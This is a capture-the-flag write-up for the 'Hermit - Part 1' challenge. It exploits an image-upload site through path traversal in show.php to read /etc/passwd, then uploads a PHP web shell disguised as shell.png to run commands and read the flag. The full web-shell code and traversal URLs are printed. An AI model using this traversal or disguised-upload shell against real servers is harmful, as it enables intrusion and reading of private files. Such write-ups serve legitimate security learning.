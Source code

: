 # Hermit - Part 1

By [Siorde](https://github.com/Siorde)

## Description
Help henry find a new shell.
It is a website where we can upload an image and then display this image.
With that we need to get the flag that must be in a file on the host.

## Solution
After uploading my first image, i saw that in the URl we use the name of the image to display it in the browser. So i tried to specifie a path to get other files.
```
http://34.121.84.161:8086/show.php?filename=../index.php
```
Instead of the image i got the base64 of the index. So my first thougth was that we need to get the flag through this get_content.
I tried several path like ../flag, ../../../../flag, ../../../../root/flag.
All i got  was "no such file or directory", or "acces denied".
Willing to see how far we could go, i tried ../../../../etc/passwd, and i got it : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:106::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
hermit:x:1000:1000::/home/hermit:/bin/sh
```
I saw a user call "hermit", so i tried his home with ../../../../home/hermit/flag, and i got a "Is a directory". So I knew that the flag was there, but i could not guess the name of the file.
After a lot of try, i decided to try another approach.
I created a file name shell.png with this content : 
```
<form action="<?=$_SERVER['REQUEST_URI']?>" method="POST"><input type="text" name="x" value="<?=htmlentities($_POST['x'])?>"><input type="submit" value="cmd"></form><pre><? echo `{$_POST['x']}`; ?></pre><? die(); ?>
```
And i upload it on the server. I got a reverse shell, so from now it was really easy.
```
ls ../../../home/hermit/flag/
-> userflag.txt
cat ../../../home/hermit/flag/userflag.txt
-> UMASS{a_picture_paints_a_thousand_shells}
```
And there was the flag.
